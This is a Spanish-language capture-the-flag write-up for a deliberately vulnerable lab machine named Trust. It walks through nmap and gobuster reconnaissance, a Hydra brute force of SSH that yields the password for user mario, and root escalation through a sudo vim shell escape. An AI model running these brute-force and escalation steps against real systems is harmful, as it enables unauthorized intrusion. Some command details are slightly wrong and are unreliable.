 #### INFORMACION DE LA MAQUINA.
#### Maquina Trust.
[LINK DE LA MAQUINA](https://mega.nz/file/UacxFKDR#G5KBHBt8ASB0lHPuttnaxKROAa40FMGrvBoIBf6ak0E)
#### Dificultad: Muy facil.

---

Enviamos un ping de un paquete para comprobar que la maquina esta activa y lista.
```Linux
Ping -c 1 172.17.0.2
```

Si entramos a la ip en el navegador podemos ver que en el puerto 80 hay un servidor apache2 configurado, el cual tiene la pagina por defecto que te entregan al activar el servidor.

---

Comenzamos el proceso con el reconocimiento del objetivo mediante el uso de la herramienta Nmap. Realizaremos un escaneo exhaustivo de todos los puertos disponibles, utilizando un escaneo de tipo SYN, junto con un conjunto de scripts que maximizarán la capacidad de reconocimiento, así como otro que nos proporcionará información sobre la versión de los servicios. Este escaneo se realizará enviando paquetes a una velocidad mínima de 5000 por segundo, sin realizar resolución DNS, y con un nivel de vervose triple en la salida para que los puertos abiertos se notifiquen progresivamente a medida que avanza el escaneo. Además, se incluirá un ping para verificar la conectividad previa.
```Linux
sudo nmap -p- -sS -sC -sV --min-rate 5000 -n -vvv -Pn 172.17.0.2
```

El escaneo detecto que la maquina tiene el puerto 22 protocolo SSH y puerto 80 protocolo HTTP abiertos.
Resultado de el escaneo:
```Linux
22/tcp open  ssh     syn-ack ttl 64 OpenSSH 9.2p1 Debian 2+deb12u2 (protocol 2.0)
80/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.57 ((Debian))

```
---

Vamos a hacer fuerza bruta a la url de la pagina para poder encontrar directorios ocultos utilizando la herramienta GoBuster y una lista common de palabras. añadimos que busque extensionés html y php, para encontrar mas directorios posibles en el servidor web.
```Linux
gobuster dir -u http://172.17.0.2 -w usr/share/wordlists/dirb/common.txt html,php
```

Resultado de fuerza bruta:
``` Linux
/index.html           Status: 200
/secret.php           Status: 200
```

Accedémos a secret.php y encontramos una pagina la cual dice que no puede ser hackeada.

---

Vamos a intentar un ataque de fuerza bruta al puerto 22 SSH, ya que vimos que está abierto. Usaremos Hydra, especificando `-l` para el nombre de usuario, que sabemos que es "Mario", y `-P` para la contraseña, usando el diccionario de contraseñas RockYou y 64 hilos de velocidad.
```Linux
hydra -l mario -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2 -t 64

```
Resultado de la fuerza bruta.

Credenciales obtenidas ya tenemos acceso a el usuario mario el cual su contraseña es: chocolate.

---

A continuación nos conectamos con el comando ssh y pasandole el nombre de usuario arrobado con la ip de la maquina victima u objetivo.
```Linux
ssh mario@172.17.0.2
```

Nos saldra este aviso para que veamos si estamos intentando conectarnos al servidor correcto y no nos hayamos equivocado para entrar a uno malicioso, sale siempre al conectarse mediante ssh a una maquina por primera vez, puedes poner que yes y listo.

A continuacion nos pide la contraseña la cual como ya sabemos es **Chocolate**

---
Con el siguiente comando una vez dentro del usuario mario vamos a ejecutar como root el ide: vim.
```Linux
sudo -u root /usr/bin/vim
```

Ahora dentro del mismo vim presionamos control + z , lo cual nos abrira una pequeña seccion en la parte de abajo de todo, donde con doble punto :q podemos salir o escribri con :w etc, lo que mucha gente no sabe es que por ahi tambien podemos abusar para ejecutar comandos como por ejemplo abrirnos una bash que es lo que haremos a continuacion.
```Vim
:!/bin/bash
```

Gracias a eso, escalamos privilegios y obtuvimos el usuario con mayores privilegios root.

---
